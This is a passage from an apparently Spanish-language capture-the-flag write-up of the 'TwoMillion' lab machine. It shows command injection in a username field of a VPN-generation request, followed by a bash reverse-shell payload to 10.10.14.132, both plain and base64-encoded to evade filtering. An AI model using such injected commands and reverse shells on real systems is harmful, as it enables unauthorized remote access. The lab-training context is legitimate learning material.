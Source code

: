 ![twomillion 13](/assets/images/2024-05-23-twomillion/twomillion_13.png)

Veo como se ha generado el certificado para mi usuario. Para crear esta configuración de VPN es muy probable que se estén ejecutando comandos en el servidor, por lo que es posible que sea vulnerable a RCE. 

Pruebo a concatenar un `whoami` después del nombre de usuario. Compruebo como se ha ejecutado correctamente. 

![twomillion 14](/assets/images/2024-05-23-twomillion/twomillion_14.png)

Me pongo en escucha con netcat e intento establecer una reverse shell. Inyecto el payload, envió la petición y… No funciona.

```shell
{
"username":"kh4ndr4; bash -i >%26 /dev/tcp/10.10.14.132/4321 0>%261;"
}
```

Tras hacer varias pruebas, consigo establecer la conexión pasando a base64 el payload.

```shell
echo "bash -i >& /dev/tcp/10.10.14.132/4321 0>&1" | base64 

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzIvNDMyMSAwPiYx
```

```shell
{
"username":"kh4ndr4; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzIvNDMyMSAwPiYx | base64 -d | bash;"
}
```
